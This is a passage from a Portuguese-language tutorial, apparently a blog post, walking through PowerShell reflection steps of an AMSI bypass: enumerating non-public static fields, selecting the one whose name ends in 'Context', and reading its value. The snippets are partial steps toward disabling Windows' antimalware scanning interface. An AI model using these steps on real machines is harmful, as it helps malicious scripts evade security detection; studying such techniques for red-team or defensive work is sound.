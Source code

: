 Enumeramos todos os campos:

```powershell
$d=$c.GetFields('NonPublic,Static')
```

Utilizamos um loop for para salvar somente o desejado:

```powershell
Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}}
```

E assim, salvamos uma referência a esse objeto:

<img src="/assets/img/AMSIBYPASS (11).png">

Podemos checar o conteúdo com o comando:

```powershell
$f.GetValue($null)
```

Que irá retornar um número decimal:

<img src="/assets/img/AMSIBYPASS (12).png">

